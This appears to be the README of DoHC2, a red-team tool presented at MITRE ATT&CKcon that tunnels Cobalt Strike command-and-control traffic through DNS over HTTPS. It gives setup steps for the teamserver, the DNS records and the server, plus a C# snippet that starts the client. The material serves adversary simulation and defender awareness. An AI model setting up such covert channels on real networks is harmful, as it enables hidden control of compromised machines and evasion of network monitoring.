

# DoHC2

DoHC2 allows the ExternalC2 library from Ryan Hanson (https://github.com/ryhanson/ExternalC2) to be
leveraged for command and control (C2) via DNS over HTTPS (DoH). This is built for the popular 
Adversary Simulation and Red Team Operations Software Cobalt Strike (https://www.cobaltstrike.com).

## Presentation

This project was released on October 23rd 2018 at [Mitre ATT&CKcon](https://www.mitre.org/attackcon). 

Slides:
[Playing Devil’s Advocate to Security Initiatives with ATT&CK](Mitre_Attackcon_Playing_Devils_Advocate_With_Attack_1.0.pdf)

Blog Article:
[DOH! DNS Over HTTPS Poses Possible Risks to Enterprises](https://www.trustwave.com/Resources/SpiderLabs-Blog/DOH!-DNS-Over-HTTPS-Poses-Possible-Risks-to-Enterprises/)

## Diagram



## Usage

1. Install and launch Cobaltstrike teamserver.
2. Launch a beacon_http/beacon_https listener - *Gotcha* This can be firewalled off but you need this for External C2 to work.
3. Load in script 'external_c2.cna' to Start ExternalC2 port 2222 (Firewall off).
4. Install dependencies for python3 server.
5. Allow port 53/udp to Internet (or to the DoH provider IP ranges).
6. Create an A record on your domain to point to the teamserver/DNS server IP i.e. [A] entry.example.org -> 000.000.000.000
7. Create an NS record to point to the A record for send channel (INPUTDOMAIN) i.e. [NS] send.example.org -> entry.example.org.
8. Create an NS record to point to the A record for receive channel (OUTPUTDOMAIN) i.e. [NS] receive.example.org -> entry.example.org.
9. Change INPUTDOMAIN and OUTPUTDOMAIN in DoHC2.py. Change encryption key/IV - this is used to encrypt the path from Teamserver-->Client Only (Encrypts Stager). Change max_records from 1 depending on DoH provider, some providers reorder records returned which is not currently handled. Max 5 works well with DNS server.
10. Launch python3 DNS server.
11. Build ExternalC2 library. Change encryption key/IV in DoHChannel.cs to match python3 server. 
12. Configure and launch DoHC2() as below being sure to set INPUTDOMAIN, OUTPUTDOMAIN and a [DoH provider](https://github.com/curl/curl/wiki/DNS-over-HTTPS) in format 'https://resolver.example.org/dns-query'.

## Server

Python DNS server based on [ACME DNS Server](https://github.com/pawitp/acme-dns-server)

* This interfaces raw DNS to the Cobalt Strike Teamserver on 127.0.0.1:2222 by default.
* Change INPUTDOMAIN and OUTPUTDOMAIN to be hosts that are NS of the server's external IP:

```bash
	pip3 install -r requirements.txt
	sudo python3 ./DoHC2.py
```

## Library

[@ryhanson](https://twitter.com/ryhanson)'s [ExternalC2](https://github.com/ryhanson/ExternalC2) with the following additions:
* Channels> DoHChannel.cs - DoH implementation
* Channels > Base32.cs (from https://gist.github.com/BravoTango86/2a085185c3b9bd8383a1f956600e515f)
* DoHC2.cs - DoH channel set-up / wrapper
* Newtonsoft.JSON (https://www.newtonsoft.com/json) is added to project

## Example Client

* As with rest of ExternalC2 DoHC2 is COMVisible for JScript/DotNetToJS but this is a simple example to initiate it.
* The example client DoHC2Runner is a simple C# program to demo loading the library and setting it up as follows:

```csharp
	DoHC2 doh = new DoHC2();
	doh.Configure("<INPUTDOMAIN>","<OUTPUTDOMAIN>","<DoH Hostname i.e. https://dns.google.com/resolve or https://dns.example.org/dns-query");
	doh.Go();
```


## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

DoHC2

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [ExternalC2](https://github.com/ryhanson/ExternalC2)
* [ExternalC2 Spec](https://www.cobaltstrike.com/help-externalc2)
* [ACME DNS Server - (Python Server)](https://github.com/pawitp/acme-dns-server)
* [Python Shared File C2 - (Python Server)](https://github.com/outflanknl/external_c2)
* [Python External_C2_Framework - (Python Server)](https://github.com/Und3rf10w/external_c2_framework)
* [DNSExfiltrator - Python Server](https://github.com/Arno0x/DNSExfiltrator)
